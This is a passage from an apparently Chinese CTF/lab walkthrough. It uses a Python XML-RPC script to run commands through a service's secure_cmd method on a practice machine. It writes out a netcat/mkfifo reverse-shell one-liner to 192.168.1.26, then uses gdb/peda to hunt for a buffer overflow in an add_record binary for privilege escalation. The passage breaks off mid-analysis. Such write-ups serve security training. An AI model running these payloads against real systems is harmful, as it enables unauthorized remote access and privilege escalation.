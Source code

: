 接下来写脚本尝试利用
```Python
from xmlrpclib import ServerProxy

s = ServerProxy("http://127.0.0.1:8000")
print s.secure_cmd("id", 6282)
```
利用成功
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.26 4444 > /tmp/f
```
尝试反弹Shell
```Python
from xmlrpclib import ServerProxy

s = ServerProxy("http://127.0.0.1:8000")
s.secure_cmd("rm /tmp/fr", 6282)
s.secure_cmd("mkfifo /tmp/fr", 6282)
s.secure_cmd("cat /tmp/fr | /bin/sh -i 2>&1 | nc 192.168.1.26 5555 > /tmp/fr", 6282)
```
成功拿到 `socnet` 的shell，接下来就是通过 `add_record` 提权，但是这个程序没有源码，不确定该如何执行。
主目录下有 `peda` 文件夹，可以理解为是一个 `gdb` 的 `Python` 语言扩展。
先执行一下 `./add_record` 看看，会在当前目录下新增一个文本文件，在其中增加内容。
类比Web程序，这个应用每次执行有5个输入点，分别是姓名、工作年限、薪水、是否引发过事故及其原因。
```Shell
gdb -q ./add_record
r # run
r < payload # 指定输入 以文件形式

q # 退出

# 生成调试字符
pattern create 100
# 定位偏移量
pattern offset AHAA
# 或者直接搜索
pattern search

# 显示汇编代码 指定函数名
disas main
disas vuln
# 0x0804873d <+101>:   push   eax
# 0x0804873e <+102>:   call   0x80484e0 <puts@plt>
# @plt内建函数

# 下断点
break *0x0804873d
# 对函数下断点 指定函数名
break vuln

# 单步执行 步入：进入内部
s
#  步过：不进入调用函数内部
n

# 删除断点
del 1
# 继续执行
c

# 查看函数信息
info func
```
先对姓名进行缓冲区溢出测试，提示 `[Inferior 1 (process 11070) exited normally]`，正常退出，可能这个位置不存在缓冲区溢出。再按 `r` 运行，再输入正常的姓名，对下一个输入位置工作年限进行尝试，还是正常退出。逐个尝试，发现最后一个输入，即事故备注存在缓冲区溢出。